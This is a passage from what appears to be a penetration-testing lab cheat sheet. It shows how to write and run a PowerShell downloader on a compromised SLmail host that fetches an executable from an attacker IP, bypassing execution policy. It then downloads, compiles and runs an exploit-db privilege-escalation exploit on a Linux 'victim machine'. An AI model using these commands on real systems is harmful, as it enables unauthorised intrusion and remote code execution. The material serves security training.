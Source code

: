 Copy and paste this command in remote shell
```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.56.102/msgfmt.net.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
Check if the powershell script is correctly written
```
C:\Program Files\SLmail\System>type wget.ps1
$storageDir = $pwd 
$webclient = New-Object System.Net.WebClient
$url = "http://192.168.56.102/msgfmt.net.exe" 
$file = "output-file.exe"
echo $webclient.DownloadFile($url,$file)
```
Run the powershell script
```
C:\Program Files\SLmail\System>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
[Back to Table of Contents](#Table-of-Contents)

## Privilege Escalation

### Linux Privilege Escalation

```
# Check the OS version
cat /etc/issue

# Check Kernel version
uname -a

# Download the exploit to the victim machine
wget -O exploit.c https://www.exploit-db.com/exploits/18411

# Compile the exploit to a binary file
gcc exploit.c -o exploit

# Run the exploit
./exploit
```

![gcc exploit](images/gcc_exploit.png)
